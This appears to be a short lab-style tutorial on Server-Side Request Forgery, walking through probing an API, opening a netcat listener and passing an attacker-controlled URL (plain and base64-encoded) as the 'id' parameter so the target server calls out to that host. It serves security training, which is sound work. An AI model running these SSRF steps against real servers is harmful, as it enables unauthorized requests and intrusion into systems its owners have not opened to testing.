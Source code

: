 # Server-Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data.

#### Interact with the API

```bash
curl http://SERVER_IP:PORT/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

#### Setup a Listener

Since it's expecting an id parameter, and it's a SSRF section setup a listener&#x20;

```bash
nc -nlvp 4444
listening on [any] 4444 ...
```

#### Make an API call

{% code overflow="wrap" %}
```bash
curl "http://SERVER_IP:PORT/api/userinfo?id=http://OUR_IP:4444"
{"success":false,"error":"'id' parameter is invalid."}
```
{% endcode %}

#### If unsuccessful, try to make an API call with encoded value

```bash
echo "http://OUR_IP:4444" | tr -d '\n' | base64
curl "http://SERVER_IP:PORT/api/userinfo?id=<BASE64 blob>"
```

